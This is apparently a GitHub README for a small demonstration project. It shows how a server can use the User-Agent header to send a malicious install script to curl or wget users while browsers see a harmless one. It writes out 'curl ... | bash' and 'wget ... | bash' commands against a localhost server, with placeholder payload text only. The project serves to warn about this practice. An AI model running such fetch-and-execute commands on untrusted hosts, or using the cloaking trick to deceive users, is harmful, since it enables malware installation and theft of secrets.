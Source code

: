 # pipe-to-bash
Piping install scripts you find on the internet to bash is a big security risk, yet many projects/vendors suggests this practice. This is a simple example showing why `curl/wget https://not-malicious.com/install.sh | bash` is bad and how you can get fooled even though you inspect the payload in the browser before executing it.

By using the `User-Agent` header we detect whether or not the call is coming from `curl` or `wget` commonly used when piping to bash, if so we supply the malicious payload. If the user is using any other `User-Agent` (such as Chrome, Firefox, etc) we will show a non-malicious install script.

## Malicious
### Request
```
# wget -qO - http://localhost:3000/install.sh | bash, yields the same result

curl -sSL http://localhost:3000/install.sh | bash
```

### Response
```
Execute all the things, install malware, exfiltrate secrets, etc
```

## Non-malicious

### Request
```
curl -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0" -sSL http://localhost:3000/install.sh | bash
```
### Response
```
Fake install script, shown if you are not using wget/curl
```